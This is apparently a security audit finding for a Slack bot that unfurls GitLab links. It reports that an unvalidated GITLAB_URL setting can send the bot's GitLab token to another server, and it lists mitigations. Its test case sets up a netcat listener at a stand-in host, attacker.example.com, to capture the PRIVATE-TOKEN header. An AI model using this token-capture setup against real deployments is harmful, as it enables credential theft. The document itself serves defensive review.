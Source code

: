 ### Vulnerability List

- Vulnerability Name: GITLAB_URL SSRF due to lack of validation
- Description:
    1. An attacker (or misconfiguration) sets the `GITLAB_URL` environment variable to point to a malicious server instead of a legitimate GitLab instance.
    2. A user in Slack posts a GitLab URL in a channel where the bot is active.
    3. The Slack bot parses the GitLab URL and attempts to fetch information to unfurl the link.
    4. The bot constructs an API request using the `GITLAB_URL` as the base URL and sends this request to the server specified in `GITLAB_URL`.
    5. Because `GITLAB_URL` is pointing to a malicious server, the API request, including the `PRIVATE-TOKEN` in the header, is sent to the attacker-controlled server.
    6. The attacker's server can capture the `GITLAB_TOKEN` from the request headers.
- Impact:
    - Leakage of the `GITLAB_TOKEN`.
    - An attacker can gain unauthorized access to the legitimate GitLab instance using the leaked `GITLAB_TOKEN`, potentially allowing them to read sensitive data, modify projects, or perform other actions depending on the token's permissions.
- Vulnerability Rank: High
- Currently implemented mitigations:
    - None. The application does not validate or sanitize the `GITLAB_URL` environment variable.
- Missing mitigations:
    - Input validation for `GITLAB_URL`. The application should validate that `GITLAB_URL` is a valid and expected GitLab instance URL.
    - Implement a whitelist of allowed GitLab domains or URL patterns for `GITLAB_URL`.
    - Consider validating the response from the `GITLAB_URL` to ensure it is indeed a GitLab instance before sending sensitive tokens.
- Preconditions:
    - The `GITLAB_URL` environment variable of the deployed Slack bot must be set to a malicious URL. This could occur due to:
        - Misconfiguration by the user deploying the bot.
        - An attacker gaining access to the deployment environment and modifying the environment variables.
- Source code analysis:
    1. File: `/code/unfurl_message.py`
    2. Line 31: `GITLAB_URL = os.getenv("GITLAB_URL")` - The `GITLAB_URL` is read directly from the environment without any validation.
    3. Line 89: `def get_data_from_api(session, api_path):` - This function constructs the full API URL using `urljoin(GITLAB_URL, api_path)`.
    4. Line 90: `response = session.get(urljoin(GITLAB_URL, api_path))` - The request is made to the constructed URL.
    5. The `GITLAB_TOKEN` is included in the headers for all API requests made by `get_data_from_api` via the `session` object which is initialized in `unfurl` function with `session.headers = {"PRIVATE-TOKEN": GITLAB_TOKEN, "User-Agent": "GitLab Unfurly"}`.
    6. There is no code to validate the `GITLAB_URL` to ensure it points to a legitimate GitLab instance.
    7. Visualization:
        ```
        [Slack User] --> (Post GitLab URL in Slack) --> [Slack Bot]
                       [Slack Bot] --> (Construct API Request using GITLAB_URL + API Path, includes GITLAB_TOKEN in header) --> [Attacker Server (if GITLAB_URL is malicious)]
                       [Attacker Server] --> (Capture GITLAB_TOKEN from request header)
        ```
- Security test case:
    1. **Setup Attacker Server:**
        - Prepare an attacker-controlled server (e.g., using `python -m http.server 8000` or `nc -l 8000`) that logs incoming HTTP requests. Let's assume it's reachable at `http://attacker.example.com:8000`.
    2. **Deploy the Slack Bot with Misconfigured GITLAB_URL:**
        - Deploy the `gitlab-unfurly` bot to AWS Lambda or a similar serverless environment.
        - **Crucially, set the `GITLAB_URL` environment variable to `http://attacker.example.com:8000`**.
        - Configure other necessary environment variables (`SLACK_TOKEN`, `GITLAB_TOKEN` - the `GITLAB_TOKEN` can be a dummy token for a test GitLab instance to minimize risk, but ensure it's set so the code doesn't error out early).
        - Ensure the bot is connected to a test Slack workspace.
    3. **Trigger Unfurl:**
        - In the test Slack workspace, in a channel where the bot is active, post a valid-looking GitLab URL (the actual GitLab instance in this URL doesn't matter as the bot will use the misconfigured `GITLAB_URL`). For example: `https://gitlab.com/testgroup/testproject/issues/1`.
    4. **Observe Attacker Server Logs:**
        - Check the logs of the attacker-controlled server (`http://attacker.example.com:8000`).
        - Verify that a request was received by the attacker server.
        - **Critically, verify that the received request includes the `PRIVATE-TOKEN` header, which contains the `GITLAB_TOKEN` value you configured (or the dummy token).**
    5. **Verification of Vulnerability:**
        - If the attacker server successfully captured the request with the `PRIVATE-TOKEN` header, it confirms the SSRF vulnerability due to the lack of `GITLAB_URL` validation. An attacker who can control the `GITLAB_URL` environment variable can indeed steal the `GITLAB_TOKEN`.